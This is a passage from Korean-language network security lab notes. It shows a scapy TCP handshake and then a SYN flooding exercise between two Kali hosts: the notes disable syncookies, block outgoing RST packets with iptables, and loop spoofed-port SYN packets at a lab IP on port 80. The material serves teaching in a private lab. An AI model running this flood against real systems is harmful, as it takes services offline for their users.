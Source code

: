 >​        load= '\x00\x00'
>
>\>>> ack = ip/TCP(sport=syn_ack[TCP].dport, dport=80, flags="A", seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq+1) ⇐ ACK 패킷 생성
>
>\>>> send(ack) ⇐ ACK 패킷 전송
>
>.
>
>Sent 1 packets.



#### TCP SYN Flooding

- SYN 패킷을 계속해서 전달

```bash
## kali#1
root@kali:~# sysctl -a | grep syncookies
net.ipv4.tcp_syncookies = 1 ## <-syncookies를 사용 = backlog que에 SYN 패킷을 저장하지 않음
sysctl: reading key "net.ipv6.conf.all.stable_secret"
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"

## 실습을 위해 syncookies 변경
root@kali:~# sysctl -w net.ipv4.tcp_syncookies=0
net.ipv4.tcp_syncookies = 0

```

```bash
## kali#2 에서 RST 패킷이 외부로 나가지 못하도록 방화벽에 등록
root@kali:~# iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP

```

```python
## kali#2 scapy
>>> ip =IP()
>>> ip.dst= "192.168.111.131"
>>> tcp=TCP()
>>> tcp.dport = 80
>>> tcp.sport = RandNum(1024, 65535)
>>> tcp.flags = "S"
>>> syn = ip/tcp
>>> send(syn, loop=True)
```

